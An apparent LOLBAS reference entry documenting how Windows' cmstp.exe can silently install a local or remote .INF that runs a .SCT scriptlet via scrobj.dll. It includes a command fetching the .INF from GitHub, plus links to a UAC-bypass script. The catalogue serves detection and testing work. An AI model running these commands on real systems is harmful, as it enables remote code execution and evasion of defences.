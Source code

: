 ## Cmstp.exe
```

cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1191](https://attack.mitre.org/wiki/Technique/T1191)   
   
* Links:   
  * https://twitter.com/NickTyrer/status/958450014111633408
  * https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  * https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  * https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  * https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  * https://github.com/hfiref0x/UACME
   
* File path:   
  * C:\Windows\system32\cmstp.exe
  * C:\Windows\sysWOW64\cmstp.exe
   
* Acknowledgement:   
  * Name: Oddvar Moe
    * Twitter: [@oddvarmoe](https://twitter.com/@oddvarmoe)
    * Blog: https://oddvar.moe
  * Name: Nick Tyrer
    * Twitter: [@NickTyrer](https://twitter.com/@NickTyrer)
    * Blog: 
   
OS:  
